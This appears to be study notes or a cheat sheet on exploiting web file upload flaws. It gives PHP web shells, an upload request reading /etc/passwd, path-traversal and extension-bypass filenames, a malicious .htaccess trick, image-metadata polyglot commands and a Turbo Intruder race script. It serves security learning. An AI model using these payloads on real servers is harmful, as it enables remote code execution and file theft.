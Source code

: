 # 🟢 File Upload

When a web server allows users to upload files to its filesystem without validating

<mark style="color:purple;">**"Content-Type" header:**</mark>

* simple text like name, address: "application/x-www-form-url-encoded"
* large amounts of binary data, like image or a PDF: "multipart/form-data"

<mark style="color:purple;">**"Content-Disposition" header:**</mark>

* If request message body is split into separate parts, each part contains a "Content-Disposition" header, which provides some basic information about the input field. and it has a "Content-Type" header which tells the server the MIME type of the data that was submitted using this input.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">PHP web shell upload</mark>

```http
// Send in a HTTP request body
<?php echo file_get_contents('/path/to/target/file'); ?>
```

```
// Send in a HTTP request body
<?php echo system($_GET['command']); ?>

// Usage in HTTP GET request
GET /example/exploit.php?command=id HTTP/1.1 
```

**Example**

```http
// Edit HTTP request with "BurpSuit Proxy"

POST /my-account/avatar HTTP/1.1
Host: test.net
LOPLOP
Content-Type: multipart/form-data; boundary=---------------------------4714704787410783474211833593
Content-Length: 523
LOPLOP
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="avatar"; filename="f.php"
Content-Type: image/png

<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="user"

TEST
-----------------------------4714704787410783474211833593
```

### <mark style="color:orange;">Web shell upload via path traversal</mark>

```
// Send file upload request:
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

### <mark style="color:orange;">Overriding the server configuration</mark>

&#x20;Load a directory-specific configuration from a file and edit it:\
\- IIS Server: "web.config"\
\- Apache Server: ".htaccess"

### <mark style="color:orange;">Obfuscating file extensions</mark>

Most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques

**Example**\
In the "Content-Disposition" header, change the value of the filename parameter to:&#x20;

```
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
```

or

```
- exploit.pHp
- exploit.php.jpg
- exploit.php.
- exploit.p.phphp 
- using the URL encoding (or double URL encoding) for dots: exploit%2Ephp
- Add semicolons or URL-encoded null byte characters before the file extension: exploit.asp;.jpg or exploit.asp%00.jpg
- using multibyte unicode characters like xC0 x2E, xC4 xAE or xC0 xAE
```

### <mark style="color:orange;">Web shell upload via extension blacklist bypass (upload malicious .htaccess file)</mark>

Send request which upload file to server in Burp Repeater then:

* Change the value of the "**filename**" parameter to "**.htaccess**"
* Change the value of the "**Content-Type**" header to "**text/plain**"
* Replace payload with\
  `AddType application/x-httpd-php .l33t`
* Resend the request with your payload and its "**filename**" should be "**exploit.l33t**"
* Now web shell was successfully uploaded.

### <mark style="color:orange;">Remote code execution via polyglot web shell upload</mark>

```
// This adds your PHP payload to the image's Comment field

$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/path/secret_file') . ' END'; ?>" icon.png -o polyglot.php
$ exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
```

### <mark style="color:orange;">Exploiting file upload race conditions</mark>

Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata

**Example**

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.\
\
To solve this challenge, we can use **Turbo Intruder**. Turbo Intruder is a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''  # Post web shell to run your payload

    request2 = '''<YOUR-GET-REQUEST>'''    # Get web shell output
    
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

### <mark style="color:orange;">Exploiting file upload vulnerabilities without remote code execution</mark>

#### <mark style="color:green;">Uploading malicious client-side scripts</mark>

If you can upload HTML files or SVG images, you can potentially use tags to create stored XSS payloads.

#### <mark style="color:green;">Exploiting vulnerabilities in the parsing of uploaded files</mark>

You know that the server parses XML-based files, such as Microsoft Office .doc or .xls files, this may be a potential vector for XXE injection attacks.

